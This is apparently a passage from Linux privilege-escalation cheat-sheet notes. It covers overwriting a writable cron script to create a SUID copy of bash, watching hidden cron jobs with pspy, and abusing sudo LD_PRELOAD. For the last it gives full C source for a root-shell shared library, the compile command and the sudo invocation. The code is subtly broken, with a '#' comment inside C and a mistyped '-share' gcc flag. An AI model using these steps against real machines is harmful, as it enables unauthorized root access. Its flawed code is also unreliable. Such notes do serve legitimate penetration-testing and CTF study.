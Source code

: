 ##### Cron File overwrite (script files)

It is simple.
Check if you can overwrite a file and if you want to use a reverse shell.
If so, check if you have nc, socat or bash.
Then you can do like this:

```
echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" >> /full/path/to/binary.sh
```

##### Check for some cronjobs out of crontab

[pspy](https://github.com/DominicBreuker/pspy)
Just run it!
```
./pspy64
```

Wait some time and the you will see something going on.

#### Password Authentication

### Insecure System Components

#### sudo -l

##### LD_PRELOAD
check if there is a env_keep+=LD_PRELOAD, then we can execute our own library with sudo.

shell.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
  unsetenv("LD_PRELOAD");
  # this indicates root user!
  setgid(0);
  setuid(0);
  system("/bin/bash");
}

```
Save this file or upload it to machine

Compiling:
```
gcc -fPIC -share -o shell.so shell.c -nostartfiles
```

Run the command:
```
sudo LD_PRELOAD=/full/path/to/shell.so (something that we can run as sudo!)
```
